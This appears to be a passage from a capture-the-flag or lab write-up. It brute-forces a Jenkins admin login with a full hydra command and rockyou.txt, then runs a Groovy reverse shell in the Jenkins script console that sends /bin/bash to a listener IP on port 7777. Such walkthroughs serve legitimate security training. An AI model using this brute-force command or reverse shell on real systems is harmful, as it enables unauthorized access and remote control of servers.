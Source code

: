 We can the open jenkins from your kali machine e.g. http://localhost:31340 and analyse the login prompt with burpsuite:

![_internal_burpsuite](_internal_burpsuite.jpg)

Using the information from the intercepted post command of a failed login attempt we can build the hdyra brute-force attack:

``` sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 31340 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=&Submit=Sign+in:F=Invalid"
```

## Jenkins groovy reverse shell

Luckily the password is simple and cracked rather fast using the rockyou.txt. Now that we are logged in as admin in the Jenkins portal let's run [this groovy reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) in the jenkins script conosole and just changed "cmd" to "/bin/bash" as well as IP and port and started a new netcat session on port 7777

```groovy
String host="10.9.193.173";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We now have a reverse shell as user jenkins.
